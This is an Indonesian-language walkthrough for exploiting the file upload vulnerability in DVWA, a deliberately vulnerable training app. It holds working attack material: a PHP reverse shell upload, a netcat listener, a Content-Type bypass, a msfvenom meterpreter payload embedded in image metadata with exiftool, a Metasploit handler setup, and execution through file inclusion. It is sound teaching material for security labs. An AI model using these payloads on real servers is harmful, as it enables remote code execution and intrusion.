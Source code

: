 # File Upload
File upload vulnerabilities terjadi ketika server web mengizinkan pengguna untuk mengunggah file ke sistem tanpa memvalidasi hal-hal penting seperti nama, type, konten, atau ukurannya.

- Sebelumnya melakukan uji serangan, download terlebih dahulu file PHP reverse shell di https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php kemudian ubah IP menjadi IP Komputer yang anda gunakan dan port sesuai kebutuhan

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2023.JPG)

- Buat sebuah listener untuk terhubung ke reverse shell dan pastikan port yang digunakan sama dengan port di file php reverse shell diatas
```sh
nc -lnvp <port>
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2024.JPG)

### Security Low
- Upload file **php-reverse-shell.php** ke halaman web

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2021.JPG)

- Untuk menjalankan file **php-reverse-shell.php** di server, cukup buka url tempat file tersimpan di tab baru pada browser maka netcat berhasil terhubung
```sh
http://<IP_Server>/DVWA/hackable/uploads/php-reverse-shell.php
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2022.JPG)

### Security Medium
- Gunakan tool Burp Suite untuk mengubah **Content-Type: application/x-php** menjadi **Content-Type: image/jpeg**

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2025.JPG)

- Jalankan file **php-reverse-shell.php** seperti pada langkah sebelumnya

### Security High
- Siapkan sebuah file gambar apa pun dengan ukuran file dibawah 100 kb
- Buat file reverse shell PHP dengan tool msfvenom
```sh
msfvenom -p php/meterpreter/reverse_tcp lhost=IP_Attacker lport=nomor_port -f raw
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2045.JPG)

- Copy payload ke sebuah text editor, kemudian ganti karakter **'** menjadi **"** lalu tambahkan function **__halt_compiler();** dibagian paling akhir

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2046.JPG)

- Masukkan script reverse shell PHP ke dalam file gambar menggunakan tool exiftool
```sh
exiftool -DocumentName='<?php /**/ error_reporting(0); $ip = "IP_Attacker"; $port = nomor_port; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } if (!$s && ($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } if (!$s && ($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } if (!$s_type) { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; if (extension_loaded("suhosin") && ini_get("suhosin.executor.disable_eval")) { $suhosin_bypass=create_function("", $b); $suhosin_bypass(); } else { eval($b); } die(); __halt_compiler();' nama_file_gambar
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2047.JPG)

- Lakukan pengecekan pada file gambar dengan exiftool
```sh
exiftool nama_file_gambar
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2048.JPG)

- Upload file gambar tersebut ke halaman **File Upload** dengan security **High**

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2049.JPG)

- Buka tool metasploit dengan perintah `msfconsole` di terminal

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2050.JPG)

- Lakukan konfigurasi dibawah untuk terhubung ke shell, dan pastikan IP dan port sama dengan konfigurasi msfvenom diatas
```sh
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.100.5
set lport 9999
run
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2051.JPG)

- Buka file gambar yang sudah terupload ke server dengan menggunakan celah keamanan **File Inclusion** dengan **Security High**
```sh
http://<IP_Server>/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/hackable/uploads/nama_file_gambar
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2052.JPG)

- Metasploit berhasil masuk ke dalam sistem dengan user **www-data**

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2053.JPG)
